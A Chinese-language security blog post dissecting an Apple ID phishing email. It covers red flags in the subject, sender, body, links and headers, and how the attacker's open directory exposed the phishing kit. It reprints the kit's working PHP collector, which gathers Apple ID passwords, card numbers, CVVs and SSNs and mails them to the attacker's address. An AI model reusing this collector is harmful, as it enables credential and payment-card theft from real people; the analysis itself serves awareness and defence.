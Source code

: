 ```yaml
---
layout: post
title: "Apple ID 釣魚郵件案例"
description: "又收到釣魚郵件了！好的釣魚郵件可以輕易騙取別人的帳號密碼，不好的釣魚郵件甚至可以讓我們破解攻擊者的手法。這次我們來看看一個 Apple ID 的釣魚郵件。"
category: "案例剖析"
tags: [Mail, Phishing]
author: "allenown"
keywords: "Mail, Phishing, 釣魚, 社交工程, Apple"

og_image: ""
---
```



今天又有不怕死的人寄來釣魚信了，這次是騙取 Apple ID。讓我們來看看這封信，其中內容有非常多破綻，也已經被 Gmail 直接定為 Spam 了，非常可憐。除了信件之外，釣魚的網頁本身也很值得我們借鏡，讓我們來看看這次的釣魚郵件案例。

[![Apple ID 釣魚信](https://lh5.googleusercontent.com/-r8BU7qq8xt0/U7UTt-3wxxI/AAAAAAAAAh0/y00wjTdq4IE/w678-h440-no/2014-07-03-apple-id-phishing-scam-01.png "Apple ID 釣魚信")](https://lh5.googleusercontent.com/-r8BU7qq8xt0/U7UTt-3wxxI/AAAAAAAAAh0/y00wjTdq4IE/s2560/2014-07-03-apple-id-phishing-scam-01.png)

READMORE

### 如何判別釣魚信呢？

先來談談要如何判別釣魚信呢。我們可以從四個要素來看：

1. 標題
2. 寄件者
3. 內文
4. 連結

#### 標題

首先，這封信的標題非常假，一般來說公司不會使用這類標題，這種判斷比較需要經驗。釣魚信件會使用非常聳動、吸引你去做動作的標題。例如常見的「你的帳號遭到停用」、「更換帳號資訊通知」等。點下連結就會帶你去假造的頁面騙你輸入密碼，千萬別傻傻當真。

#### 寄件者

寄件者通常是釣魚信一定會加強假造的部分，利用官方存在的信箱或是他人的信箱寄信，加強你的信任。不過需要特別注意的是：

**寄件者的欄位是可以假造、隨意填寫的，千萬不要直接信任。**

以這封信為例，寄件者「service@apple.com」是不存在的。當然這個欄位可以假造，但連假造都錯，實在是非常不用心。

#### 內文

信件的內文就是精華了，要怎麼做出一封很像官方的信件，又要誘使人去點選，實在是一門藝術。精心設計的釣魚信、社交工程、APT 郵件，通常都會針對受害者客製化，調查身邊的社交圈、常談的話題、常用的服務、會點擊的郵件，來製造一個一定會中獎的信件。

當然很多時候攻擊者調查不足，還是會出現蛛絲馬跡的。例如來自中國的惡意郵件，常會出現「**尊敬的用戶您好**」這種在台灣人眼中看了很彆扭的詞彙。如果出現了不常見的用詞，就非常有可能是一個假造的惡意郵件，千萬不要傻傻的點選連結或附件。

再回頭來以這封信為例，最大的破綻除了非制式的內文之外，就屬署名了。明明是假造「Apple Customer Support」的來信，最下面卻簽署「Microsoft Privacy and cookies Developers」，有沒有搞錯？可以再用點心嗎？

#### 連結

最後的重點就是信件中的釣魚連結了，通常這個連結會帶你前往一個長得跟官方網站一模一樣的登入頁面，騙你輸入帳號密碼登入來竊取。在點選超連結之前，一定要先看一下這個連結前往的位置是不是官方的位置，例如是 Apple 的信件通常就會是前往 Apple.com 自己的網域名稱。當然更要特別注意的是假造的網域名稱，例如使用「App1e.com」來偽裝成「Apple.com」，也是非常常見的。

這封信中使用了最不用心的用法，就是直接拿釣魚網站的 URL 來當連結，一來長得跟官方網域根本不像，二來落落長的連結，到底是想要騙誰點選呢？

### 信件標頭藏有攻擊者的蛛絲馬跡

收到惡意郵件、釣魚郵件，一定要好好看信件的標頭檔（Header）。裡面通常可以看到攻擊者發信的來源，例如是自己架設的發信伺服器或者是使用肉雞來發信。

[![Apple ID 釣魚信 Header](https://lh4.googleusercontent.com/-DSvLz6-NiA4/U7UTt5j6t3I/AAAAAAAAAiE/I0iX66vNa0E/w1044-h582-no/2014-07-03-apple-id-phishing-scam-02.png "Apple ID 釣魚信 Header")](https://lh4.googleusercontent.com/-DSvLz6-NiA4/U7UTt5j6t3I/AAAAAAAAAiE/I0iX66vNa0E/s2560/2014-07-03-apple-id-phishing-scam-02.png)

信件標頭最重要的就是「Received」這個部分，要由下往上閱讀。從這邊我們可以看到信件的流向，從攻擊發起者到發信伺服器，中間經過其他伺服器的轉送，最後到收到釣魚信件的郵件伺服器。因此從最下面的 Received 位置，我們可以知道攻擊者是從「selecttr@cloud.httpdns.co」來寄送信件的，因此 cloud.httpdns.co 很有可能就是攻擊者的伺服器，或者是被駭來發信的伺服器。

如果覺得信件的標頭太長難以閱讀，可以利用 Google 提供的工具「[Google Apps Toolbox - Messageheader](https://toolbox.googleapps.com/apps/messageheader/)」。只要把信件的標頭貼上，他就會自動分析信件的流向，如下圖。

[![檢查信件 header](https://lh4.googleusercontent.com/-5Kz28O5Y_QQ/U7UdDqQzuRI/AAAAAAAAAis/nLqhaKijwIc/w962-h403-no/2014-07-03-apple-id-phishing-scam-08.png "檢查信件 header")](https://lh4.googleusercontent.com/-5Kz28O5Y_QQ/U7UdDqQzuRI/AAAAAAAAAis/nLqhaKijwIc/s2560/2014-07-03-apple-id-phishing-scam-08.png)

### 釣魚網頁，也請你注重安全啊。

接著我們來看一下釣魚頁面。通常「正常」的釣魚頁面都會做得跟官方一模一樣，因為通常攻擊者都會直接把官方網站上面的 HTML 直接下載下來修改。如果有做得不像的，就真的是太不用心的攻擊者。

我們可以看到這個釣魚頁面做得非常像，上面要你輸入帳號、密碼、姓名、生日、信用卡號等資訊，非常惡劣。唯有網址實在是太假，希望沒有人眼拙真的以為這是 Apple 的網站。

[![Apple ID 釣魚網頁](https://lh3.googleusercontent.com/-roay8gwb1xg/U7UTuUnkDxI/AAAAAAAAAic/Za7ARXd50gE/w897-h678-no/2014-07-03-apple-id-phishing-scam-04.png "Apple ID 釣魚網頁")](https://lh3.googleusercontent.com/-roay8gwb1xg/U7UTuUnkDxI/AAAAAAAAAic/Za7ARXd50gE/s2560/2014-07-03-apple-id-phishing-scam-04.png)

秉持的資安研究員的好習慣，我們把網址子目錄去掉，看看網站的根目錄長什麼樣子，結果讓人跌破眼鏡。

[![釣魚網頁開放目錄瀏覽](https://lh6.googleusercontent.com/-9othIZ0WnKQ/U7UTt_UVaSI/AAAAAAAAAh4/Wufvr0iIgHI/w897-h678-no/2014-07-03-apple-id-phishing-scam-03.png "釣魚網頁開放目錄瀏覽")](https://lh6.googleusercontent.com/-9othIZ0WnKQ/U7UTt_UVaSI/AAAAAAAAAh4/Wufvr0iIgHI/s2560/2014-07-03-apple-id-phishing-scam-03.png)

**釣魚網站也請你注重安全啊！**這個網站大剌剌的開著目錄索引，讓我們可以看到網站上的各個目錄、檔案。除了 Apple 的釣魚網頁之外，甚至有釣魚網頁的原始碼「connect-info.zip」，更有著其他釣魚網頁在同個站上。

[![站上其他釣魚頁面](https://lh5.googleusercontent.com/-F1tIkSqFbsM/U7UTu8R0Y1I/AAAAAAAAAiQ/5pxB467FPlM/w897-h678-no/2014-07-03-apple-id-phishing-scam-05.png "站上其他釣魚頁面")](https://lh5.googleusercontent.com/-F1tIkSqFbsM/U7UTu8R0Y1I/AAAAAAAAAiQ/5pxB467FPlM/s2560/2014-07-03-apple-id-phishing-scam-05.png)

既然可以瀏覽，那我們來看看釣魚網頁的原始碼寫得怎樣。抓下來解開之後會看到完整的釣魚網頁，以及接收受騙人資料的主程式「Snd.php」。

[![下載釣魚網頁原始碼](https://lh6.googleusercontent.com/-0v_MrZOZf9A/U7UTvO9EgqI/AAAAAAAAAiM/qqW2mrwy500/w706-h574-no/2014-07-03-apple-id-phishing-scam-06.png "下載釣魚網頁原始碼")](https://lh6.googleusercontent.com/-0v_MrZOZf9A/U7UTvO9EgqI/AAAAAAAAAiM/qqW2mrwy500/s2560/2014-07-03-apple-id-phishing-scam-06.png)

釣魚網頁的程式寫得非常簡單，僅把網頁上接收到的被害人資料、IP，寄送到他的信箱「 justforhacke@gmail.com 」，寄送完畢後會自動導向到官方的頁面偽裝。

[![釣魚網頁原始碼](https://lh4.googleusercontent.com/-1-GdwVT5nkQ/U7UTvu91imI/AAAAAAAAAiY/VCEV9Eo2oMo/w797-h607-no/2014-07-03-apple-id-phishing-scam-07.png "釣魚網頁原始碼")](https://lh4.googleusercontent.com/-1-GdwVT5nkQ/U7UTvu91imI/AAAAAAAAAiY/VCEV9Eo2oMo/s2560/2014-07-03-apple-id-phishing-scam-07.png)

如果釣魚網頁寫得不好，甚至我們有機會可以攻擊他釣魚網頁上的漏洞，直接取得主機的權限，解救世人。從原始碼我們一目了然釣魚網頁的行為、寫法，也可以尋找有無攻擊的機會。

#### 釣魚網頁原始碼備份

{% highlight php %}
<?php
$ip = getenv("REMOTE_ADDR");
$hostname = gethostbyaddr($ip);
$bilsmg .= "------------+| AppLe VbV |+------------\n";
$bilsmg .= "Apple ID                    : ".$_POST['donnee000']."\n";
$bilsmg .= "Password                    : ".$_POST['donnee001']."\n";
$bilsmg .= "Full Name                   : ".$_POST['donnee01']."\n";
$bilsmg .= "Date of Birth               : ".$_POST['donnee02']."/";
$bilsmg .= "".$_POST['donnee3']."/";
$bilsmg .= "".$_POST['donnee4']."\n";
$bilsmg .= "Number Of Credit Card       : ".$_POST['donnee5']."\n";
$bilsmg .= "CVC (CVV)                   : ".$_POST['donnee6']."\n";
$bilsmg .= "Expiration Date             : ".$_POST['donnee7']."/";
$bilsmg .= "".$_POST['donnee8']."\n";
$bilsmg .= "Social Security Number      : ".$_POST['donnee9']."\n";
$bilsmg .= "------------+| APpLe VBV |+------------\n";
$bilsmg .= "Fr0m $ip            \n";


$bilsnd = "justforhacke@gmail.com";
$bilsub = "Apple Result | Fr0m $ip";
$bilhead = "From: Apple Results <justforhacke@gmail.com>";
$bilhead .= $_POST['eMailAdd']."\n";
$bilhead .= "MIME-Version: 1.0\n";
$arr=array($bilsnd, $IP);
foreach ($arr as $bilsnd)
mail($bilsnd,$bilsub,$bilsmg,$bilhead);

header('Location:https://itunesconnect.apple.com/WebObjects/iTunesConnect.woa/');

?>
{% endhighlight %}

### 釣魚郵件不死，別再把自己當成肥羊了！

釣魚攻擊最早從 1995 年就開始盛行，一直到快 20 年後的今天，都還是一個非常簡單又有效率的攻擊手法。收到郵件千萬別傻傻的輸入自己的個資、帳號密碼，仔細看一下攻擊者的破綻，別讓他得逞了。

如果有發現疑似釣魚網站，又無法確認，可以到 [PhishTank](http://www.phishtank.com/) 來查查看，找到釣魚網站也可以投稿一下幫助其他人！
